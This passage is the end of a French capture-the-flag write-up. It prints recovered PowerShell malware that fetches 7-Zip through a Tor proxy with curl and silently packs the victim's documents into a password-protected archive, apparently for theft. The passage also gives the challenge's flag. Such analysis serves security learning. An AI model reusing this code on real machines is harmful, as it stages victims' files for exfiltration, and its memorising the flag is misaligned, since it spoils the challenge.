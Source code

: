 ```powershell
    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```

### Conclusion

Un challenge très intéressant qui m'aura permis d'apprendre de nouvelles choses. La résolution post CTF ce sera avérée relativement simple une fois qu'on connaît les Alternate Data Stream et leur fonctionnement.

